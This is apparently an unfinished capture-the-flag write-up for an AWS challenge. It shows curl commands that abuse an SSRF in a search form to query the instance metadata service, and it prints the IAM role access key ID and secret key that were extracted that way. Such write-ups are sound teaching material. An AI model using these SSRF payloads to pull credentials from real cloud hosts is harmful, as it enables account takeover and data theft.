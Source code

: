 # CloUDwalker - Cloud Village CTF 2025

## Challenge Screenshots

![Challenge Part 1](./HiddenState_320pts_part1.jpg)
![Challenge Part 2](./HiddenState_320pts_part2.jpg)

## Challenge Overview

CloUDwalker was an AWS cloud security challenge that combined Server-Side Request Forgery (SSRF) exploitation with cloud metadata service access and multi-service AWS reconnaissance.

**Target:** `http://cloud-walker.hexnova.quest:8080/`

## Initial Discovery

### Web Application Analysis
Inspecting the HTML source code revealed a commented-out search form with a telling comment:
```html
<!-- remove search due to ssrf problemss
<form action="/search" method="POST">
  <label for="query">Search:</label>
  <input type="text" id="query" name="query" placeholder="Enter search term" required>
  <button type="submit">Submit</button>
</form>
-->
```

This comment directly hinted at SSRF vulnerabilities and identified the attack vector: a POST endpoint at `/search` with a `query` parameter.

## SSRF Exploitation

### AWS Metadata Service Access
We exploited the SSRF vulnerability to access the AWS metadata service:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "query=http://169.254.169.254/latest/meta-data/"
```

This revealed the standard AWS metadata structure, confirming we were running on an EC2 instance.

### Instance Information Gathering
Through SSRF, we extracted critical instance information:
- **Instance ID:** `i-06aa1eec85dfeb4ce`
- **Region:** `eu-north-1` 
- **Account ID:** `101244608939`
- **IAM Role:** `small_phil_role`

### EC2 Tags Analysis
The most crucial discovery came from examining EC2 instance tags:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/tags/instance/hex-nova"
```

This returned a hex-encoded message:
```
747269656420746f206869646520626f6d6220636f646520696e20656332207461672e206661696c2e2074726965642077697468696e2065633220696e7374616e63652e206661696c2e20747279696e6720616e6f7468657220736572766963652e2070657469742e0a
```

Decoding this hex revealed:
```
"tried to hide bomb code in ec2 tag. fail. tried within ec2 instance. fail. trying another service. petit."
```

**Key Clues:**
- "bomb code" = flag  
- "petit" (French for "small") = Lambda functions
- Flag was moved from EC2 to "another service"

## AWS Credentials Extraction

### IAM Role Credentials
Through the SSRF, we extracted temporary AWS credentials:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/iam/security-credentials/small_phil_role"
```

This provided:
- **AccessKeyId:** `ASIARPEVGEGV5J5FTMNK`
- **SecretAccessKey:** `Ni7BvaY53fa890fmsSOdVSXw2l0cl4Uz4SDgFGRq`  
- **SessionToken:** [long session token]

#TODO: Add the complete solution showing how the Lambda function containing the flag was discovered and accessed, as the notes indicate the challenge was not fully completed

## Security Analysis

### Prowler Scan Results
Using the extracted credentials, we performed security analysis with Prowler:
- Role `small_phil_role` had restrictive permissions with explicit denies
- Both `small_phil_role` and `lambda-exec-role` were vulnerable to confused deputy attacks
- Limited access to most AWS services (Lambda, SSM, Secrets Manager blocked)

### S3 Access
We did gain read access to the `syndicate-uk-database` S3 bucket, which contained what appeared to be a cowsay project repository. Analysis of the README.md revealed:

> "Source code backdoors was good attempt to store the bomb code I discovered but it was too obvious and the Syndicate discovered this too quickly. I am avoiding S3 as a service and will look elsewhere."

This confirmed the flag had been moved from S3 to another AWS service, likely Lambda based on the "petit" clue.

#TODO: Add screenshot of the Prowler scan results showing the IAM policy restrictions

## Key Techniques
- Server-Side Request Forgery (SSRF)
- AWS metadata service exploitation
- Hex decoding and cryptanalysis
- AWS IAM role analysis
- Multi-service cloud enumeration
- Security assessment with Prowler

## Lessons Learned
- SSRF vulnerabilities can provide complete cloud environment access
- Instance metadata contains highly sensitive information
- EC2 tags can be used to store and communicate information
- Proper IAM policies are crucial for limiting blast radius
- Cross-service cloud security requires comprehensive analysis

#TODO: Add the final flag once the Lambda function exploitation is completed